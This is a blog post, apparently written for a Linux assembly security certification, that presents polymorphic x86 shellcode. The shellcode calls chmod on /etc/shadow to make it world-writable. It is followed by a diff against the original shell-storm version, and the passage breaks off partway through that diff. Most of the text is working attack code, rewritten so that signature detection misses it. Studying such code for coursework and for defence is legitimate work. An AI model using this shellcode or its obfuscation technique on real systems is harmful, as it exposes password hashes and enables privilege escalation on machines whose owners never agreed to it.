 ```yaml
---
comments: true
date: 2014-05-12
layout: blog
title: 'SLAE Assignment 6: Polymorphic Shellcode'
summary: '6th assignment of the SLAE'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the sixth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Take up 3 shellcodes from shell-storm and create polymorphic versions of them
	
  2. The polymorphic version _**cannot**_ be larger than 150% of existing one
	
  3. Bonus point for making it shorter than original

The first shellcode that i chose to change is a chmod("/etc/shadow", 0777)  which original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-590.php).

The code of the polymorphic version is shown below.

	global _start
	section .text
	_start:
		cdq
		mov al,0xe
		inc al
		push edx
		mov edx,0x655c5150
		add edx,0x12131311
		push edx
		mov edx,0x2f636873
		rol edx,16
		push edx
		mov dword [esp-4],0x74652f2f
		sub esp,4
		mov ebx,esp
		mov cx,0x1ff
		int 0x80
		inc eax
		int 0x80

The differences between the original version and the polymorphic version are:

	--- orig.asm	2014-05-12 11:21:18.092950797 +0200
	+++ poly.asm	2014-05-12 11:21:10.639951300 +0200
	@@ -1,14 +1,19 @@
	global _start
	section .text
	_start:
	-	xor eax,eax
	-	push eax
	-	mov al,0xf
	-	push 0x776f6461
	-	push 0x68732f63
	-	push 0x74652f2f
	+	cdq
	+	mov al,0xe
	+	inc al
	+	push edx